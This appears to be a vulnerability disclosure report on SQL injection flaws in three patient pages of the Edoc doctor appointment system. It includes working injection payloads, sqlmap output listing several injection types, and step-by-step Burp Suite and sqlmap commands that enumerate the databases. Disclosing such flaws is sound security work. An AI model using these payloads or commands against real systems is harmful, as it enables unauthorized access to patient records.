# Edoc-doctor-appointment-system v1.0.1  was discovered to contain multiple SQL injection vulnerabilities via /patient/doctors.php , /patient/booking.php , /patient/settings.php .Allowing remote attackers to execute the sqli attack.

## 1 . Blind SQLi in /patient/doctors.php 

PoC

```
http://ip/patient/doctors.php?action=view&id=1' AND (SELECT 7788 FROM (SELECT(SLEEP(5)))gIPf)-- MVmI
```


vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/doctors.php 


Log in to the http://ip/login.php

Visit http://ip/patient/doctors.php  ,  will access the page of the module.

Use burp suite to capture request packet , and then click the View button.







Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.




Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --technique B --dbs`  to run sqlmap.






## 2. SQLi in /patient/booking.php 

PoC

```
sqlmap identified the following injection point(s) with a total of 71 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND 7686=7686

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 OR (SELECT 3032 FROM(SELECT COUNT(*),CONCAT(0x717a6a7071,(SELECT (ELT(3032=3032,1))),0x7170787a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/booking.php?id=1 AND (SELECT 8632 FROM (SELECT(SLEEP(5)))HCPI)

    Type: UNION query
    Title: Generic UNION query (NULL) - 13 columns
    Payload: http://www.doctor111.com:80/patient/booking.php?id=-4821 UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x717a6a7071,0x4247754365636f69425457434250756e6877504d52795463504f436950496d726376685a64465049,0x7170787a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
---
```


vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/booking.php 


Log in to the http://ip/login.php

First , visit http://ip/patient/schedule.php , and then use burpsuite to capture request packet , click Book Now button.







Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.



Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.


## 3. SQLi in /patient/settings.php

PoC

```
sqlmap identified the following injection point(s) with a total of 177 HTTP(s) requests:
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND 3197=(SELECT (CASE WHEN (3197=3197) THEN 3197 ELSE (SELECT 9367 UNION SELECT 1506) END))-- -&error=0

    Type: error-based
    Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' OR (SELECT 3493 FROM(SELECT COUNT(*),CONCAT(0x7162786a71,(SELECT (ELT(3493=3493,1))),0x717a6a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ITWX&error=0

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=1' AND (SELECT 6213 FROM (SELECT(SLEEP(5)))kZmv)-- SfKb&error=0

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: http://www.doctor111.com:80/patient/settings.php?action=edit&id=-6866' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7162786a71,0x78415242537376577872514272566a74536270524449464568776d4e5a577a57524e676b62644d57,0x717a6a7071)-- -&error=0
---
```


vendor : https://github.com/HashenUdara/edoc-doctor-appointment-system

Vulnerability Position : http://ip/patient/settings.php


Log in to the http://ip/login.php

First , visit http://ip/patient/settings.php , and then use burpsuite to capture request packet , click Book Now button.






Copy request packet to sqlmap root path , and revise id=1*  , save as 2.txt.



Use `python sqlmap.py -r 2.txt --threads 10 --batch --level 3 --risk 3 --dbms mysql --dbs`  to run sqlmap.

